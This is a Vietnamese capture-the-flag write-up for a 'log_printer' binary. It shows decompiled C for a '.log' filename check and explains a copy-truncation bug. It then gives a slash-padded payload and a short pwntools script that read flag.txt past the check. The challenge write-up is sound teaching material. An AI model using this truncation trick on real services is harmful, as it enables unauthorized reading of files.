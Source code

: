 ```c
  v2 = strstr(a1, ".log");
  v3 = strchr(a1, 42);
  if ( v2 && !v3 && &a1[strlen(a1) - 1] - v2 == 3 )
    return 1LL;
  puts("Invalid log file!");
  return 0LL;
}

```

Bài này, sẽ nhận chuỗi input vào v7, sau đấy gọi hàm để filter input, nếu pass thì sẽ tiến hành copy v7 => v6 và open, read, write ra cho mình. Để ý kĩ thì có 1 bug là v7 được nhập 256 bytes, nhưng lúc check xong rồi copy sang v6 thì chỉ cop có 129 bytes, nên là mình có thể lợi dụng điều này để bypass check file name.

Thì check sẽ filter:

- buộc có ".log"
- không chứa kí tự  * 
- sau ".log" thì không có kí tự nào khác 

Thì idea để pass của mình sẽ là :

- aaa...aaaaaflag.txt.log
- flag.txtaaa..aaaaaa.log

Miễn sao cho lúc copy thì cut mất đoạn .log đi, để control thành file mình muốn

Sau khi vắt óc nghĩ và search làm sao để inject fmt vào blabla để ghi đè hay đẩy padding sang tham số khác, thì thầy Dương_saye lúc 2h sáng đã hint cho mình là không cần phải thế.

> search di
> search va suy nghi
> cai gi
> dang truoc flag.txt
> de no van truy van den file flag.txt cua folder hien tai

Sau khi mò 1 hồi thì payload cho bài này của mình là:

**payload = b"." + b"/"*119  + b"flag.txt" + b".log"**

### exploit

```python
from pwn import *
r = process("./log_printer")

payload = b"." + b"/"*119  + b"flag.txt" + b".log"

r.sendline(payload)
print(r.recvline())

r.interactive()

```
